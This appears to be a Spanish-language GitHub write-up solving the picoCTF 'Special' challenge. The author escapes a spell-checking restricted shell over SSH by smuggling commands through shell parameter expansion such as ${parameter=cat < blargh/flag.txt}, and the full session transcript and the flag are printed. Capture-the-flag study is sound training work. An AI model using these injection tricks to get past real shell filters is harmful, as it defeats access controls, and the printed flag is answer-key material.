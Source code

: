 ## Objetivo
```
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

Additional details will be available after launching your challenge instance.
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
porti_04@DESKTOP-8HT902T:~$ ssh -p 60645 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.net's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Sep 18 05:01:42 2024 from 127.0.0.1

1. Comencé enumerando las carpetas o archivos disponibles y seguí secuencialmente la siguiente tabla

|Dominio|Producción|
|---|---|
|${parámetro?ls}|parámetro: ls|
|${:ls}|Mala sustitución|
|${parámetro=ls}|Blargh|
|${parámetro=gato blargh}|cat: blargh: Es un directorio|
|${parámetro=cd blargh}|${parámetro=cd blargh}|
|${parámetro=ls blargh}|bandera.txt|
|${parámetro=cat < blargh/flag.txt}|Esto le dio la bandera|

Special$ ${parameter?ls}
${parameter?ls}
sh: 1: parameter: ls
Special$ ${:ls}
${:ls}
sh: 1: Bad substitution
Special$ ${parameter=ls}
${parameter=ls}
blargh
Special$ ${parameter=cat blargh}
${parameter=cat blargh}
cat: blargh: Is a directory
Special$ ${parameter=cd blargh}
${parameter=cd blargh}
Special$ ${parameter=ls blargh}
${parameter=ls blargh}
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt}
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_f578af59}Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
porti_04@DESKTOP-8HT902T:~$
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
Busque en internet la tabla que me ayudo a solucionar el reto
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias
https://josephkimiri.github.io/posts/Special/
